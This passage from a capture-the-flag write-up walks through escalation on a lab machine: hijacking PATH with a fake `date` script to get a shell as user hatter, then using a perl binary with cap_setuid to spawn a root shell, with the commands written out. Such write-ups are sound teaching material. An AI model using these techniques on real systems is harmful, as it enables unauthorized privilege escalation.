 We see the program calls `date` in this line:```/bin/echo -n 'Probably by ' && date --date='next hour' -R```. Just like with "random" from above, let's create our own `date` file e.g.:

``` sh
#!/bin/sh
bash
```

Now, let's change the file to be executable by everyone:```chmod +x date``` and add it to the path variables:```PATH=/home/rabbit:$PATH```

If we now execute `./teaParty` we get a shell as hatter:

``` txt
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

We can see the hatter password in `/home/hatter/password.txt`

## Login as hatter

Since we have the user name and password, let' us login with ssh:```ssh hatter@10.10.28.31```

`sudo -l`, `find / -perm -u=s -type f 2>/dev/null` and `find / -xdev -user hatter 2>/dev/null` don't reveal any interesting output but `find / -xdev -group hatter 2>/dev/null` shows group hatter owns perl. Unfortunately sudo is not possible and the suid bit isn’t set on the perl executable.

There is another thing we can check: With `getcap -r / 2>/dev/null` we can check for "capabilities" and we see perl in the list:

``` txt
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Let's run a perl script misusing the capabilities from [GTOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities): "If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID."

```perl
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

We are now root and can read the root.txt in the home folder of alice:

``` sh
cat /home/alice/root.txt
```
